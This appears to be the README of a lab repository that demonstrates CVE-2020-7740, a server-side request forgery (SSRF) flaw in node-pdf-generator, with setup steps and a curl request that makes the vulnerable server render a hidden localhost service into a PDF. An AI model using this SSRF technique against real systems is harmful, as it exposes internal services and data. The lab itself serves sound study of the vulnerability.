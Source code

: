 # CVE-2020-7740

This affects all versions of package [`node-pdf-generator`](https://github.com/darrenhaken/node-pdf-generator). Due to lack of user input validation and sanitization done to the content given to node-pdf-generator, it is possible for an attacker to craft a url that will be passed to an external server allowing an SSRF attack.

[Source](https://nvd.nist.gov/vuln/detail/CVE-2020-7740)

## Quick start with docker

1. Build the container with `docker build --platform linux/amd64 -t cve-2020-7740 .`
2. Run the container with `docker run -p 3000:3000 cve-2020-7740`
3. Notice that we cannot visit [`localhost:3001`](http://localhost:3001) directly
4. Send the request with curl using `curl --location --request GET localhost:3000/test --data-raw http://localhost:3001 --output test.pdf`
5. View `test.pdf` to view the localhost website that is supposed to be hidden.

## Quick start Without docker

1. Clone the project using `git clone {link to be inserted}`
2. Install the dependencies from `https://wkhtmltopdf.org/`
3. Start the server using `node .\NodePdfGeneratorServer` the server will be running at `localhost:3000`
4. Install the requirements of the hidden python server using `python3 -m pip install -r requirements.txt`
5. Start the hidden server using `python3 HiddenService` the server will be running at ['localhost:3001`](http://localhost:3001)

## How does it work?

1. A get request with a body is sent to the server. This can be sent using `curl --location --request GET localhost:3000/test --data-raw http://www.google.com --output test.pdf`
2. This will save a copy of the html page of `http://www.google.com` to the file `test.pdf`

## Why is it vulnerable?

1. Other URLs that is fed to the server will be visited by the server in order for it to convert the website to pdf.
2. This allows the user forge a server request by giving the server an internal IP address for it to target.

## More information on the CVE-2020-7740

1. [Vicarius.io](https://www.vicarius.io/research-center/vulnerability/cve-2020-7740-id264841)
2. [NVD](https://nvd.nist.gov/vuln/detail/CVE-2020-7740)
3. [Original Repository](https://github.com/darrenhaken/node-pdf-generator)
